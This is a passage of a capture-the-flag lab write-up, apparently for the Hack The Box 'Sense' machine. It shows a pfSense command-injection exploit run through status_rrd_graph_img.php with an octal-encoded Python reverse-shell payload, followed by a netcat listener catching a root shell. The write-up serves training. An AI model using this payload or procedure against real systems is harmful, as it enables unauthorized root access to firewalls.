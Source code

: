 <br />
Execute the update script and note the payload url.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/sense]
└─$ ./pfsense.py --rhost 10.10.10.60 --lhost 10.10.16.12 --lport 443 --username rohit --password pfsense
CSRF token obtained
Running exploit...
https://10.10.10.60/status_rrd_graph_img.php?database=queues;printf+'\12\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\12\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\12\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\66\56\61\62\42\54\64\64\63\51\51\73\12\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\12\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\12\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\12\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\42\57\142\151\156\57\163\150\42\54\42\55\151\42\135\51\73\47\12'|sh
Exploit completed
```
{% endraw %}

<br />
Take that url and try running it in the browser.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/sense/browser.png" title="Run Exploit in Browser" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the listener and catch the shell.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/sense]
└─$ sudo nc -nlvp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.60] 61089
sh: can't access tty; job control turned off
# whoami
root
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```bash
# cat /home/rohit/user.txt
<redacted># ifconfig
em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
        options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
        ether 00:50:56:b9:a2:6a
        inet 10.10.10.60 netmask 0xffffff00 broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:a26a%em0 prefixlen 64 scopeid 0x1 
        nd6 options=1<PERFORMNUD>
        media: Ethernet autoselect (1000baseT <full-duplex>)
        status: active
plip0: flags=8810<POINTOPOINT,SIMPLEX,MULTICAST> metric 0 mtu 1500
enc0: flags=0<> metric 0 mtu 1536
pfsync0: flags=0<> metric 0 mtu 1460
```